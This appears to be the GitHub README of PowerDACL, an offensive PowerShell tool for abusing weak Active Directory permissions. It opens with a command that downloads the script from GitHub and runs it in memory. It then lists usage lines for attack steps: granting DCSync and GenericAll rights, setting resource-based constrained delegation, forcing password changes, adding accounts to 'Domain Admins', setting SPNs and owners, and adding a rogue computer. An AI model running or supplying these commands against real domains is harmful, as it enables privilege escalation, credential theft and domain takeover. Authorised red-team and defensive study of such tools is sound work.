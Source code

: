 # PowerDACL
A tool to abuse weak permissions of Active Directory Discretionary Access Control Lists (DACLs) and Access Control Entries (ACEs)

## Load PowerDACL in memory

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PowerDACL/main/PowerDACL.ps1')
```

## Help Page
```
PowerDACL
```

## Grant DCSync rights
```
DCSync -Target username
```
```
DCSync -Target username -TargetDomain userdomain
```

## Grant GenericAll rights
```
GenericAll -Target MSSQL01$ -Grantee username
```
```
GenericAll -Target MSSQL01$ -TargetDomain acme.local -Grantee username -GranteeDomain domain.local
```

## Set RBCD:
```
RBCD -Target MSSQL01$ -Grantee username
```
```
RBCD -Target MSSQL01$ -TargetDomain domain.local -Grantee username -GranteeDomain acme.local
```
```
RBCD -Target MSSQL01$ -Clear
```

## Add Computer to domain
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd!
```
```
AddComputer -ComputerName evilcomputer -Password P@ssw0rd! -Domain ferrari.local
```

## Delete Computer from domain
```
DeleteComputer -ComputerName evilcomputer
```
```
DeleteComputer -ComputerName evilcomputer -Domain ferrari.local
```

## Force Change Password
```
ForceChangePass -Target username -Password P@ssw0rd!
```
```
ForceChangePass -Target username -Password P@ssw0rd! -TargetDomain usserdomain
```

## Set SPN:
```
SetSPN -Target username
```
```
SetSPN -Target username -TargetDomain userdomain -SPN "test/test"
```

## Remove SPN:
```
RemoveSPN -Target username
```
```
RemoveSPN -Target username -TargetDomain userdomain
```

## Set Owner
```
SetOwner -Target MSSQL01$ -Owner username
```
```
SetOwner -Target MSSQL01$ -TargetDomain acme.local -Owner username -OwnerDomain domain.local
```

## Enable Account
```
EnableAccount -Target myComputer$
```
```
EnableAccount -Target myComputer$ -Domain userdomain
```

## Disable Account
```
DisableAccount -Target myComputer$
```
```
DisableAccount -Target myComputer$ -Domain userdomain
```

## Add object to a group
```
AddToGroup -Target user -Group "Domain Admins"
```
```
AddToGroup -Target user -Group "Domain Admins" -Domain userdomain
```

## Remove object from a group
```
RemoveFromGroup -Target user -Group "Domain Admins"
```
```
RemoveFromGroup -Target user -Group "Domain Admins" -Domain userdomain
```

## Shadow Credentials

https://github.com/Leo4j/KeyCredentialLink
